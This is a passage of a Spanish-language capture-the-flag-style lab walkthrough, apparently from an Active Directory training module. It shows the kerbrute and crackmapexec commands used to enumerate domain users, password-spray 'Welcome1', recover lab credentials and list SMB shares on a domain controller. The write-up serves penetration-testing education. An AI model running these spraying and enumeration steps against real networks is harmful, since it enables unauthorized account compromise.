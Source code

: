 - Intentamos hacer password spraying. Lo hacemos con `kerbroute` en la máquina Windows: 
    - Descargamos el binario amd64 desde la [página oficial de github](https://github.com/ropnop/kerbrute/releases)
    - Pasamos la lista `jsmith` a la carpeta de trabajo
    - Hacemos enumeración de usuarios
        ```powershell
        .\kerbrute_windows_amd64.exe userenum -d inlanefreight.local --dc dc01 jsmith.txt
        ```
        Encontrando 57 usuarios válidos, pero no podemos hacer password spraying sobre ninguno de estos

    - Nos vamos a la pwnbox y ejecutamos
        ```bash
        crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users 
        # Funciona también con rpcclient - enumdomusers y con enum4linux
        ```
    - Volcamos la información de los usuarios en un arhcivo llamado `users_raw`, y creamos una lista válida escribiendo lo siguiente sobre el archivo
        ```bash
        #Ejemplo de línea del archivo raw users: 
        #SMB         172.16.7.3      445    DC01             INLANEFREIGHT.LOCAL\Administrator                  badpwdcount: 0 baddpwdtime: 2022-04-11 23:12:32.366484

        cat raw_users | awk '{print $5}' | awk -F '\' '{print $2}' > valid_users
        # otra opción
        awk '{print $5}' raw_users | cut -d'\' -f2  > valid_users
        ```

    - Ejecutamos password spraying con `Welcome1` y `kerbrute`, ejecutando lo siguiente: 
        ```bash
        kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users Welcome1
        ```
        Encontrando que `Welcome1` es válida para `BR086`. Credenciales: `BR086:Welcome1`

###  Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?
- Con estas credenciales podemos acceder al contenido `Deparment Shares` (No he podido vía `smblcient`) de `DC01`
    ```textplain
    crackmapexec smb 172.16.7.3 -u "BR086" -p "Welcome1" --shares                                                                                                                                                                
    SMB         172.16.7.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)                                                                         
    SMB         172.16.7.3      445    DC01             [+] INLANEFREIGHT.LOCAL\BR086:Welcome1                                                                                                                                         
    SMB         172.16.7.3      445    DC01             [+] Enumerated shares                                                                                                                                                          
    SMB         172.16.7.3      445    DC01             Share           Permissions     Remark                                                                                                                                         
    SMB         172.16.7.3      445    DC01             -----           -----------     ------                                                                                                                                         
    SMB         172.16.7.3      445    DC01             ADMIN$                          Remote Admin                                                                                                                                   
    SMB         172.16.7.3      445    DC01             C$                              Default share                                                                                                                                  
    SMB         172.16.7.3      445    DC01             Department Shares READ            Share for department users                                                                                                                   
    SMB         172.16.7.3      445    DC01             IPC$            READ            Remote IPC                                                                                                                                     
    SMB         172.16.7.3      445    DC01             NETLOGON        READ            Logon server share                                                                                                                             
    SMB         172.16.7.3      445    DC01             SYSVOL          READ            Logon server share    
    ```
